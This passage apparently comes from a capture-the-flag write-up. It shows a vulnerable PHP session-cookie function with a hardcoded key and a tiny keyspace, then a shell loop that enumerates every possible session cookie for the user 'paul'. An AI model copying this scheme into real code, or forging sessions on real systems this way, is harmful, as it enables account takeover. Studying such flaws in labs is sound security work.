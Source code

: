 ``` bash
<?php
/**
 * @param string $username  Username requesting session cookie
 * 
 * @return string $session_cookie Returns the generated cookie
 * 
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * */
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
```

The cookie.php file create the session cookie of the user, and we get the secret key, 
``` bash
# edit the cookie file, add in the final line
print(makesession("paul"));
<?php
/**
 * @param string $username  Username requesting session cookie
 * 
 * @return string $session_cookie Returns the generated cookie
 * 
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * */
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
print(makesession("paul"));

❯ php cookie.php
paul8c8808867b53c49777fe5559164708c3%  

# Check for posibles session cookies for the user paul
❯ for i in $(seq 1 1000); do php cookie.php; echo; done | sort -u
paul47200b180ccd6835d25d034eeb6e6390
paul61ff9d4aaefe6bdf45681678ba89ff9d
paul8c8808867b53c49777fe5559164708c3
paula2a6a014d3bee04d7df8d5837d62e8c5

# 
```
